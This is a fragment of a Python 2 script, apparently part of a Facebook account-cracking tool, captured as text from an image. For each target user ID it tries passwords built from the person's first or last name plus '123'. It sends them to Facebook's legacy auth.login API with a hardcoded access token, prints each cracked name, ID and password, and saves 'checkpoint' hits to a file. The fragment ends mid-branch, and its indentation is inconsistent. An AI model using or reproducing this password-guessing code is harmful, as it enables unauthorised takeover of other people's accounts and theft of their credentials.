 				print '\x1b[1;91m[  *  ] \x1b[1;92m[OK]'											
				print '\x1b[1;91m[۩۞۩] \x1b[1;91mName \x1b[1;91m    : \x1b[1;91m' + b['name']											
				print '\x1b[1;91m[۩۞۩] \x1b[1;91mID \x1b[1;91m      : \x1b[1;91m' + user											
				print '\x1b[1;91m[۩۞۩] \x1b[1;91mPassword \x1b[1;91m: \x1b[1;91m' + pass1 + '\n'											
				oks.append(user+pass1)
                        else:
			        if 'www.facebook.com' in q["error_msg"]:
				    print '\x1b[1;93m[ * ] \x1b[1;96m[Checkpoint]'
				    print '\x1b[1;93m[۩۞۩] \x1b[1;93mName \x1b[1;93m    : \x1b[1;93m' + b ['name']
				    print '\x1b[1;93m[۩۞۩] \x1b[1;93mID \x1b[1;93m      : \x1b[1;93m' + user
				    print '\x1b[1;93m[۩۞۩] \x1b[1;93mPassword \x1b[1;93m: \x1b[1;93m' + pass1 + '\n'
				    cek = open("out/super_cp.txt", "a")
				    cek.write("ID:" +user+ " Pw:" +pass1+"\n")
				    cek.close()
				    cekpoint.append(user+pass1)
                                else:
				    pass2 = b['first_name'] + '123'										
                                    data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")												
			            q = json.load(data)												
			            if 'access_token' in q:	
				            x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				            z = json.loads(x.text)
				            print '\x1b[1;91m[  *  ] \x1b[1;92m[OK]'											
				            print '\x1b[1;91m[۩۞۩] \x1b[1;91mName \x1b[1;91m    : \x1b[1;91m' + b['name']											
				            print '\x1b[1;91m[۩۞۩] \x1b[1;91mID \x1b[1;91m      : \x1b[1;91m' + user								
				            print '\x1b[1;91m[۩۞۩] \x1b[1;91mPassword \x1b[1;91m: \x1b[1;91m' + pass2 + '\n'											
				            oks.append(user+pass2)
                                    else:
			                   if 'www.facebook.com' in q["error_msg"]:
				               print '\x1b[1;93m[ * ] \x1b[1;96m[Checkpoint]'
				               print '\x1b[1;93m[۩۞۩] \x1b[1;93mName \x1b[1;93m    : \x1b[1;93m' + b['name']
				               print '\x1b[1;93m[۩۞۩] \x1b[1;93mID \x1b[1;93m      : \x1b[1;93m' + user
				               print '\x1b[1;93m[۩۞۩] \x1b[1;93mPassword \x1b[1;93m: \x1b[1;93m' + pass2 + '\n'
				               cek = open("out/super_cp.txt", "a")
				               cek.write("ID:" +user+ " Pw:" +pass2+"\n")
				               cek.close()
				               cekpoint.append(user+pass2)								
				           else:											
					       pass3 = b['last_name']+'123'										
					       data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")										
					       q = json.load(data)										
					       if 'access_token' in q:	
						       x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				                       z = json.loads(x.text)
						       print '\x1b[1;91m[  *  ] \x1b[1;92m[OK]'								
						       print '\x1b[1;91m[۩۞۩] \x1b[1;91mName \x1b[1;91m    : \x1b[1;91m' + b['name']									
						       print '\x1b[1;91m[۩۞۩] \x1b[1;91mID \x1b[1;91m      : \x1b[1;91m' + user							
						       print '\x1b[1;91m[۩۞۩] \x1b[1;91mPassword \x1b[1;91m: \x1b[1;91m' + pass3 + '\n'									
						       oks.append(user+pass3)
                                               else:
			                               if 'www.facebook.com' in q["error_msg"]:
				                           print '\x1b[1;93m[ * ] \x1b[1;96m[Checkpoint]'
				                           print '\x1b[1;93m[۩۞۩] \x1b[1;93mName \x1b[1;93m    : \x1b[1;93m' + b['name']
				                           print '\x1b[1;93m[۩۞۩] \x1b[1;93mID \x1b[1;93m      : \x1b[1;93m' + user
				                           print '\x1b[1;93m[۩۞۩] \x1b[1;93mPassword \x1b[1;93m: \x1b[1;93m' + pass3 + '\n'
				                           cek = open("out/super_cp.txt", "a")
				                           cek.write("ID:" +user+ " Pw:" +pass3+"\n")
				                           cek.close()
				                           cekpoint.append(user+pass3)									
					               else:										